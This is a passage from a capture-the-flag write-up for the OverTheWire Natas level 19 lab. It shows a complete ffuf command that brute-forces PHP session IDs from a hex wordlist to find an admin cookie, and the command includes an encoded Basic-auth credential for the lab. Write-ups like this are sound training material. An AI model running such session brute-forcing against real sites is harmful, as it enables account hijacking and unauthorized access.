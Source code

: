 Now its time to use ffuf to brute-force the session id's.

{% code lineNumbers="true" %}
```python
ffuf -w hex_640.txt:FUZZ \
    -u $'http://natas19.natas.labs.overthewire.org/index.php' \
    -X $'POST' \
    -H $'Host: natas19.natas.labs.overthewire.org' \
    -H $'Content-Length: 31' -H $'Cache-Control: max-age=0' \
    -H $'Authorization: Basic bmF0YXMxOTo4TE1KRWhLRmJNS0lMMm14UUtqdjBhRURkazd6cFQwcw==' \
    -H $'Upgrade-Insecure-Requests: 1' \
    -H $'Origin: http://natas19.natas.labs.overthewire.org' \
    -H $'Content-Type: application/x-www-form-urlencoded' \
    -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36' \
    -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
    -H $'Referer: http://natas19.natas.labs.overthewire.org/' \
    -H $'Accept-Encoding: gzip, deflate, br' \
    -H $'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' \
    -H $'Connection: close' \
    -b $'PHPSESSID=FUZZ' \
    -d $'username=admin&password=somoene' \
    -fr "You are logged in as a regular user."
```
{% endcode %}

From the results of `ffuf`, we can get the valid admin cookie.

<figure><img src=".gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>
